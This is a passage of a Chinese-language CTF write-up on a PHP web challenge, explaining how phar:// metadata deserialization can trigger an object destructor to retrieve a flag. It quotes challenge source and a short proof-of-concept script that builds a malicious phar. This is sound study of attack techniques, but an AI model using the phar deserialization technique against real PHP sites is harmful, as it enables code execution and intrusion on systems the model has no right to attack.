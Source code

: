 ```
        die(file_get_contents($path . "/avatar.gif"));
    }

    $mode = $_GET["m"];
    if ($mode == "upload")
        upload(check_session());
    else if ($mode == "show")
        show(check_session());
    else
        highlight_file(__FILE__); 
```

首先从代码里可以很清楚的看明白flag的获取方式。

1、flag在admin类里，如果能够反序列化就能触发析构函数获取flag。
2、`check_session`从cookie中读取了data，但是却经过了`hash_hmac`，这是二进制层面的对比，完全没办法绕过。

所以第一个难关就是怎么构造一个反序列化。

**这里是个0day...网上搜不到任何相关信息**

**php在解析phar对象的时候会反序列化metadata**

在[https://rdot.org/forum/showthread.php?t=4379](https://rdot.org/forum/showthread.php?t=4379)提到了一段测试代码

```
<?php

if(count($argv) > 1) {
    @readfile("phar://./deser.phar");
    exit;
}

class Hui {
    function __destruct() {
        echo "PWN\n";
    }
}

@unlink('deser.phar');
try {
    $p = new Phar(dirname(__FILE__) . '/deser.phar', 0);
    $p['file.txt'] = 'test';
    $p->setMetadata(new Hui());
    $p->setStub('<?php __HALT_COMPILER(); ?>');
} catch (Exception $e) {
    echo 'Could not create and/or modify phar:', $e;
}

?>
```

从phar.c的底层代码我们可以看到这部分操作


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/c1c9vp7cvb2z2ausx5biqr84/image.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/u3360luwi2cwwqdsukt59ckv/image.png
